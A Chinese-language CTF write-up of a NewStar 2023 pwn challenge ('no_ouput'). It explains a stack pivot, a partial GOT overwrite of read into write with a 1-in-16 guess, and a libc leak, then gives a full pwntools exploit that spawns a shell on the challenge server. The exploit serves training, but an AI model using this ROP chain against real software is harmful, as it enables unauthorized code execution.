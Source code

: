 ```yaml
---
title: newstar2023 week5 - no ouput
date: 2023/10/23 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - stack pivot
    - 1-digit guess
excerpt: 利用堆栈迁移和GOT劫持，从无输出程序中获取libc基址并执行system("/bin/sh")。
---
```


~~肯定是把output的t漏了~~

## 文件分析

下载`no_ouput`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

没有输出函数，但是csu_init在，可以轻松控制寄存器，那么因为 read
函数离 write 函数很近，可以由此打印出read@got拿到libcBase，然后就能调
`system("/bin/sh")`

那么首先修改.bss上的read为write，栈迁移执行，然后再次栈迁移，在栈上放置
`system("/bin/sh")`  
要注意的是，由于write比read高不少，超过了0xFF，又已知ASLR不会改变末12位，
而改是一个字节一个字节改的，因此`read & 0xF000`这4位是赌的，每次有1/16的概率能中，
并不是执行脚本就能一次打下来的

## 踩过的坑

1. write函数是对系统调用的封装，因此开栈不大，可以放心迁移
2. system执行的参数在这题只能是libc里的shstr，在.bss上捏的就不行，
网上也搜不到结果，请懂的师傅发个discussion
3. read会读取字符直到换行符（前提是读取的字节不够），sleep再久也没用（recv可以打断输入，
这时可以不用换行符）
4. 网上写可以用`elf.search(str).next()`，实际上不行，库里只有__next__()魔法方法，
因此需要用next包裹，如`next(elf.search(str))`
5. 看准时间提交...虽然比赛是周日晚9点更新题目，但是结束是在早上9点...
做出来了没提交上:(

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('no_ouput')
        gdb.attach(sh, 'b system')
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('node4.buuoj.cn', 29390)
        libc = ELF('libc-2.31.so')
    elf = ELF('no_ouput')
    popRdi = 0x401253
    popRsiR15 = 0x401251
    readPlt = elf.plt['read']
    readGot = elf.got['read']
    readBss = 0x404050
    bssHigh = 0x404800
    leaveRet = 0x4011ea

    # payload 1, pivot stack to readBss and read in shstr, stack pivot instruction & patch from read to write
    sh.sendline(b'0'*112 + p64(readBss - 0x30) + p64(popRsiR15) + p64(bssHigh - 16) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss + 8) + p64(0) + p64(readPlt) +
        p64(popRsiR15) + p64(readBss - 0x30) + p64(0) + p64(readPlt) + p64(leaveRet))
    print('p1 send')
    if lo & 0b10:
        sleep(5) # wait for gdb to make manual debug easier
    else:
        sleep(0.5)

    # payload 2, make "/bin/sh" on .bss
    sh.sendline(b'/bin/sh'.ljust(16, b'\0') + p64(popRdi) + p64(0) + p64(popRsiR15) + p64(bssHigh + 0x30) + p64(0) + p64(readPlt))
    print('p4 send')
    sleep(0.5)

    # payload 3, stack pivot instruction, after this procedure, rip = bssHigh
    sh.sendline(p64(leaveRet))
    print('p3 send')
    sleep(0.5)
    
    # payload 4, patch read, if 0b10 digit debug on, read real readAddr from user
    if lo & 0b10:
        patch = p16(int(input('read addr:'), 16) - 0x520 + 0x1020)
    elif lo:
        patch = p16(0x8020)
    else:
        patch = p16(0x3060)
    sh.send(p64(bssHigh - 8) + p64(popRdi) + p64(1) + p64(popRsiR15) + p64(readGot) + p64(0) + patch)
    print('p2 send')
    sleep(0.5)

    try:
        libcBase = u64(sh.recv(6) + b'\0\0') - libc.symbols['read']
        sh.recv() # skip remaining chars from write() above
        system = libcBase + libc.symbols['system']
        shstr = libcBase + next(libc.search(b'/bin/sh')) # in python 3, use next() magic func like this

        # payload 5, write systemAddr on .bss
        # sh.sendline(p64(popRdi) + p64(bssHigh - 16) + p64(system)) # shstr on .bss can't open shell!
        sh.sendline(p64(popRdi) + p64(shstr) + p64(system))
        print('p5 send')
        sh.interactive()
        sh.close()
        return 0
    except EOFError:
        # in this case, patch is incorrect, leading to SIGSEGV
        print('addr not match')
        sh.close()
        return 1

while payload(0):
    pass
```

Done.
